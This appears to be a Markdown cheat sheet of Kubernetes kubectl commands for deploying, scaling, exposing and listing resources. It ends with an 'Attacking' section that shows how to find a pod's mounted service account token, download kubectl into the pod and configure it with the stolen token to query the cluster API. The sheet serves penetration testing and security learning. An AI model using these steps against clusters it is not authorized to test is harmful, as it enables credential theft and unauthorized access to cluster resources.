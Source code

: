 # Kubernetes

## Remote

```kubectl --kubeconfig ~/.kube/config <command>```

Using a kubeconfig file to access a remote API and run commands

```curl https://kubernetes.site.com:6443/api```

Check for the existance of the kubernetes api secure port

*Other relevant [ports](https://github.com/freach/kubernetes-security-best-practice/blob/master/README.md) for interacting with kubernetes*

## Create

```kubectl create deployment <deployment_name> --image=<image_name>```

Create deployment

## Apply

```kubectl apply -f <file_name>.yml --dry-run```

Shows output for the deployment without actually running

```kubectl apply -f <file_name>.yml --server-dry-run```

Shows output for deployment by checking API (If deployment exists it will list changes)

## Diff

```kubectl diff -f <file_name>.yml```

Compare differences between current deployment and yml deployment

## Scale

```kubectl scale deployment/<deployment_name> --replicas 5```

Scaling to 5 replicas

## Expose

```kubectl expose deployment/<deployment_name> --port 8080```

Expose port inside Kubenetes cluster

```kubectl expose deployment/<deployment_name> --port 8080 --name <name> --type NodePort```

Expose port outside cluster (Used for Docker Desktop)

## Get

```kubectl get all```

List all Kubernetes services and resources

```kubectl get services```

List deployed services

```kubectl get namespaces```

List namespaces in your curent context

```kubectl get all --all-namespaces```

List all namespaces

## Explain

```kubectl explain services.spec```

List information about services.spec (yaml spec)

## Delete

```kubectl delete deployment <deployment_name>```

Delete deployment

## Attacking

### Single pod service accounts

```mount | grep kube```

Searching for the serviceaccount folder (Default: /run/secrets/kubernetes.io/serviceaccount)

Important files:
* ca.crt
* namespace
* token (service account token)

```
env

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=nginx-6799fc88d8-2pgh2
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
NGINX_VERSION=1.19.6
NJS_VERSION=0.5.0
PKG_RELEASE=1~buster
HOME=/root

```

Search environment variables for api endpoints

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Downloading a copy of [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/) (chmod u+x before running)

```
alias kubectl="<path_to_kubectl> --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://<api_server_ip>:<api_server_port>"
```

Setup kubectl command with discovered credentials from serviceaccount folder




